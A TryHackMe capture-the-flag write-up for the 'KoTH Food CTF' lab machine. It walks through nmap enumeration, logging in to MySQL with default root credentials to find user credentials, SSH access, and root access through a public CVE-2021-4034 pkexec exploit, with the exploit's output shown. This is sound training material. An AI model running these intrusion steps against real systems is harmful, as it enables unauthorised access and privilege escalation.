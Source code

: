 ```yaml
---
title: "KoTH Food CTF"
date: 2025-03-08
image: /assets/img/tryhackme/KoTHFoodCTF/KoTHFoodCTF_image.jpg
description: Writeup of the TryHackMe-CTF KoTH Food CTF
categories: [TryHackMe, Easy]
tags: [linux, pkexec, koth]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>KoTH Food CTF</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Practice Food KoTH alone, to get familiar with KoTH!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/kothfoodctf">https://tryhackme.com/room/kothfoodctf</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge KoTH Food CTF.  

## Enumeration
I started the enumeration using `nmap`:
```bash
kali@kali:~/ctf/KoTHFoodCTF$ nmap -p- 10.10.145.91         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 11:31 EDT
Nmap scan report for 10.10.145.91
Host is up (0.044s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
3306/tcp  open  mysql
9999/tcp  open  abyss
15065/tcp open  unknown
16109/tcp open  unknown
46969/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 52.00 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,3306,9999,15065,16109,46969 10.10.145.91 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 11:33 EDT
Nmap scan report for 10.10.145.91
Host is up (0.046s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 28:0c:0c:d9:5a:7d:be:e6:f4:3c:ed:10:51:49:4d:19 (RSA)
|   256 17:ce:03:3b:bb:20:78:09:ab:76:c0:6d:8d:c4:df:51 (ECDSA)
|_  256 07:8a:50:b5:5b:4a:a7:6c:c8:b3:a1:ca:77:b9:0d:07 (ED25519)
3306/tcp  open  mysql   MySQL 5.7.29-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.29-0ubuntu0.18.04.1
|   Thread ID: 5
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, Speaks41ProtocolNew, SupportsLoadDataLocal, InteractiveClient, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, ODBCClient, SupportsCompression, FoundRows, SwitchToSSLAfterHandshake, ConnectWithDatabase, LongColumnFlag, LongPassword, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: \x0Fh!0\x1Cm8IMjcD"afw"B\x063
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=MySQL_Server_5.7.29_Auto_Generated_Server_Certificate
| Not valid before: 2020-03-19T17:21:30
|_Not valid after:  2030-03-17T17:21:30
|_ssl-date: TLS randomness does not represent time
9999/tcp  open  abyss?
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Fri, 14 Mar 2025 15:33:08 GMT
|     Content-Length: 4
|     Content-Type: text/plain; charset=utf-8
|     king
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request
15065/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Host monitoring
16109/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Fri, 14 Mar 2025 15:33:08 GMT
|     Content-Type: image/jpeg
|     JFIF
|     #*%%*525EE\xff
|     #*%%*525EE\xff
|     $3br
|     %&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
|     &'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
|     Y$?_
|     qR]$Oyk
|_    |$o.
46969/tcp open  telnet  Linux telnetd
```
From here I proceeded the analysis port by port.

## Port 3306 Analysis

I began by analyzing port 3306 and the MySQL instance. Before attempting to brute force the credentials for the root user, I simply tried some default ones and was successded: 
```bash
$ mysql -h 10.10.145.91 -u root -p --skip-ssl-verify-server-cert 
  Enter password: 
  Welcome to the MariaDB monitor.  Commands end with ; or \g.
  Your MySQL connection id is 14
  Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

  Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

  Support MariaDB developers by giving a star at https://github.com/MariaDB/server
  Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

  MySQL [(none)]> show databases;
  +--------------------+
  | Database           |
  +--------------------+
  | information_schema |
  | mysql              |
  | performance_schema |
  | sys                |
  | users              |
  +--------------------+
  5 rows in set (0.300 sec)

  MySQL [(none)]> use users;

  MySQL [users]> show tables;
  +-----------------+
  | Tables_in_users |
  +-----------------+
  | User            |
  +-----------------+
  1 row in set (0.042 sec)

  MySQL [users]> select * from User;
  +----------+---------------------------------------+
  | username | password                              |
  +----------+---------------------------------------+
  | ramen    | n[remvoed]t                           |
  | flag     | thm{2[removed]2}                      |
  +----------+---------------------------------------+
  2 rows in set (0.038 sec)
```

Great! I obtained tge credentials and retrieved the first flag. The credentials where valid, and I was able to log in as `ramen`:
```bash
$ ssh ramen@10.10.145.91
ramen@foodctf:/home/ramen$
```

## Privilege Escalation root

While enumerating potential ways to escalate privileges, I retrieved some flags as well:
```bash
ramen@foodctf:/home/bread$ cat flag 
  thm{7[removed]5}

ramen@foodctf:/home/food$ cat .flag
  thm{5[removed]1}

ramen@foodctf:/var$ cat flag.txt
  thm{0[removed]8}

root@foodctf:/var/log/# cat auth.log 
  thm{4[removed]f}
```

I continued by checking for SUID bits and discoverd that `pkexec` had its SUID bit set. I used the exploit described in <a href="https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py">CVE-2021-4034</a> and successfully gained root access:
```bash
ramen@foodctf:/home/tryhackme$ find / -perm /4000 -type f 2>/dev/null
  [...]
  /usr/bin/pkexec
  [...]
ramen@foodctf:~$ python3 exploit.py 
  Do you want to choose a custom payload? y/n (n use default payload)  n
  [+] Cleaning pervious exploiting attempt (if exist)
  [+] Creating shared library for exploit code.
  [+] Finding a libc library to call execve
  [+] Found a library at <CDLL 'libc.so.6', handle 7f2a4e9e5000 at 0x7f2a4d4907f0>
  [+] Call execve() with chosen payload
  [+] Enjoy your root shell
# whoami
  root
# cd /root
# cat flag
  thm{9[removed]b}
# cat .profile
  # ~/.profile: executed by Bourne-compatible login shells.

  if [ "$BASH" ]; then
    if [ -f ~/.bashrc ]; then
      . ~/.bashrc
    fi
  fi

  mesg n || true
  alias wall="echo"
  # thm{2[removed]d}
# cd /home/tryhackme
# cat flag7     
  thm{5[removed]e}
```

Flags:
1. MySQL server
2. /home/bread/flag
3. /home/food/.flag
4. /var/flag.txt
5. /root/flag
6. /var/log/auth.log
7. /home/tryhackme/flag7
8. /root/.profile

There are multiple ways to achieve initial access and privilege escalation; This write-up only showed one possibility :)

solved! :)